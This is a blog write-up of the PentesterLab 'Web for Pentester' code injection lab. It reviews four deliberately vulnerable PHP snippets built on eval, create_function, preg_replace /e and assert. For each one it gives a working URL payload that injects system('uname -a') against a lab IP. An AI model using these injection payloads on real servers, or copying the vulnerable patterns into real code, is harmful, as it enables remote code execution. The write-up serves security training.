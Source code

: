```yaml
---
layout: post
title: "Pentestlab--Web for Pentester - Code Injection"
date: 2016-03-18 15:37:22 -0400
comments: true
categories: [pentesterlab, code injection, web pentest]
---
```

Web for Pentester: This exercise is a set of the most common web vulnerability

Difficluty: 1/5
<!--more-->

Pentester lab:
 Code executions come from a lack of filtering and/or escaping of user-controlled data. When you are exploiting a code injection, you will need to inject code within the information you are sending to the application. For example, if you want to run the command ls, you will need to send system("ls") to the application since it is a PHP application.


###Example 1

code review:

```php example1.php
?php 
  $str="echo \"Hello ".$_GET['name']."!!!\";";

  eval($str);
?>
```
 The developer use function `eval` to echo the name. Hpwever, the developer doesn't filter the input of eval function. By using concatenation `.`, I can add code after the input and use `#` to comment the rest of code

 manually exploit:

 `http://192.168.79.162/codeexec/example1.php?name=hacker".system('uname -a');#`

 payload `hacker".system('uname -a');#` needs to be URL encoded.


###Example 2

code review:

```php example2.php
$order = $_GET["order"];
	$result = mysql_query($sql);
  if ($result) {
		while ($row = mysql_fetch_assoc($result)) {
      $users[] = new User($row['id'],$row['name'],$row['age']);
    }
    if (isset($order)) { 
      usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
    }
	}   
```
Form Pentesterlab:

The function usort is often used with the function create_function to dynamically generate the "sorting" function, based on user-controlled information. If the web application lacks potent filtering and validation, this can lead to code execution.



manually exploit:


`http://192.168.79.162/codeexec/example2.php?order=id);}system('uname -a');#`


###Example 3

code review:

```php example3.php
<?php
	echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
?>
```

From Pentesterlab:

We talked earlier about regular expression modifiers with multi-line regular expression. Another very dangerous modifier exists in PHP: PCRE_REPLACE_EVAL (/e). This modifier will cause the function preg_replace to evaluate the new value as PHP code, before performing the substitution.

manually exploit:

`http://192.168.79.162/codeexec/example3.php?new=system('uname%20-a')&pattern=/lamer/e&base=Hello lamer`




###Example 4

code review:

```php example4.php
assert(trim("'".$_GET['name']."'"));
echo "Hello ".htmlentities($_GET['name']);
```

from Pentesterlab:

This example is based on the function assert. When used incorrectly, this function will evaluate the value received. This behaviour can be used to gain code execution. 


manual exploit:

`http://192.168.79.162/codeexec/example4.php?name=hacker'.system('uname -a').'`


